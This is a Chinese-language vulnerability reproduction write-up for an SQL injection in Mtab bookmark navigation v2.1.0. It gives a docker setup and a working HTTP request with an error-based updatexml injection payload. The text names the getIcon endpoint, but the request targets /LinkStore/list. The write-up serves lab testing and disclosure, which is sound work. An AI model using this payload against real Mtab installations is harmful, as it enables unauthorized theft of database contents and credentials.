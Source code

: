 # Mtab书签导航程序 v2.1.0 SQL注入漏洞

Mtab书签导航程序 - 免费无广告的浏览器书签助手，多端同步、美观易用的在 线导航和书签工具，自主研发免费使用，帮助您高效管理 网页和应用，提升在线体验。
	Mtab书签导航程序 LinkStore/getIcon 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

漏洞影响版本

Mtab <= v2.1.0

产品项目地址

https://github.com/tsxcw/mtab

参考链接：

- https://forum.butian.net/article/539

## 环境搭建

执行如下命令启动Mtab-v2.1.0程序web

```
docker compose up
```

环境启动后，访问`http://your-ip:80`将看到Mtab的安装向导页面，安装配置如下图

![1](./1.png)

等待安装完成

![2](./2.png)

## 漏洞复现

发送如下数据包

```
POST /LinkStore/list HTTP/1.1
Host: 192.168.76.128
Content-Length: 78
Content-Type: application/json

{"url":"1' and (updatexml(1,concat(0x7e,(select user()),0x7e),1)) and '1'='1"}
```

![3](./3.png)

